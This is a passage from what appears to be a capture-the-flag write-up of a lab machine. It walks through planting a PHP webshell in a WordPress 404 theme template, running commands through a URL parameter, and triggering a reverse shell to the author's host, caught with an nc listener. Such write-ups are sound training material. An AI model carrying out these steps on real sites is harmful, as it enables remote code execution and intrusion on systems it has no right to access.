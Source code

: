 ### Webshell

One way to get a shell in WordPress is to modify a theme file, since they are written in PHP. On the left menu, Appearance –> Themes –> Editor will bring up the editor:

![image-20210615145238169](https://0xdfimages.gitlab.io/img/image-20210615145238169.png)

On the right, I’ll pick a page to edit. I like the 404 template. I’ll add a webshell right at the top:

![image-20210615145439065](https://0xdfimages.gitlab.io/img/image-20210615145439065.png)

On clicking the Update button, it returns that the page was saved:

![image-20210615145504934](https://0xdfimages.gitlab.io/img/image-20210615145504934.png)

It’s not uncommon to find this edit ability locked out from the web interface, in which case there are other methods to get RCE.

I’ll notice that the first post is `http://enterprise.htb/?p=69`. I’ll change that to `p=169`:

![image-20210615145630660](https://0xdfimages.gitlab.io/img/image-20210615145630660.png)

If I add a parameter, `http://enterprise.htb/?p=169&0xdf=id`, the execution is at the top of the page:

![image-20210615145719704](https://0xdfimages.gitlab.io/img/image-20210615145719704.png)

### Shell

I often show how to go webshell to shell, but it’s also possible to just put it in the PHP:

![image-20210615151513377](https://0xdfimages.gitlab.io/img/image-20210615151513377.png)

Now visiting `enterprise.htb/?p=169&ip=10.10.14.8` triggers a reverse shell back to my host:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.61] 43104
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b8319d86d21e:/var/www/html$

```

The shell is running as www-data, on a hostname `b8319d86d21e`:

```

www-data@b8319d86d21e:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@b8319d86d21e:/var/www/html$ hostname
b8319d86d21e

```
